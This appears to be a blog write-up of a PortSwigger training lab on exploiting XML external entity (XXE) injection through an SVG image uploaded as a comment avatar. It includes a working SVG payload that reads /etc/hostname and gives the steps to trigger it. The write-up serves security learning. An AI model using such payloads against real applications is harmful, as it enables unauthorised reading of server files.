 ```yaml
---
title: "Lab: Exploiting XXE via image file upload"
datePublished: Fri Jan 12 2024 12:03:41 GMT+0000 (Coordinated Universal Time)
cuid: clralb49e000a09l67av37wxj
slug: lab-exploiting-xxe-via-image-file-upload
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1704888704671/1224711c-8a99-4e6e-b12e-72c064f6d37b.png
tags: cybersecurity-1, websecurity, burpsuite, xxe, portswigger, handson

---
```


Lab Scenario: Our mission is to exploit XXE through an image file upload on a web application. By uploading a crafted SVG image, we intend to reveal the contents of a server file, in this case, `/etc/hostname`. Let's proceed with the solution:

1. **Crafting the Malicious SVG Image:**
    
    * Create a local SVG image with the following content:
        
        ```plaintext
        xmlCopy code<?xml version="1.0" standalone="yes"?>
        <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
        <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
          <text font-size="16" x="0" y="16">&xxe;</text>
        </svg>
        ```
        
2. **Posting a Comment with Image Upload:**
    
    * Post a comment on a blog post.
        
    * Upload the crafted SVG image as an avatar.
        
3. **Exploiting XXE:**
    
    * When you view your comment, the XXE payload in the SVG image will trigger, disclosing the contents of the `/etc/hostname` file.
        
4. **Submitting the Solution:**
    
    * Use the "Submit solution" button to submit the value of the server hostname obtained from the XXE exploitation.
        

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1704542707021/3049388c-cf57-46a4-a838-1c368be9678e.png align="left")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1704542727756/88046229-f9e8-43aa-8112-5f6b6f521482.png align="left")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1704542663108/8f16ca59-7de8-43a9-a7ce-9829ae199a4e.png align="left")

**Conclusion**: This lab exercise provides practical insights into exploiting XXE vulnerabilities through image file uploads. By following this step-by-step guide, users can deepen their understanding of XXE attacks and the potential risks associated with improper handling of XML input. Stay informed, keep learning, and continue exploring the dynamic field of cybersecurity to contribute to a more secure online environment.

**Reference**:

[https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe)

[https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)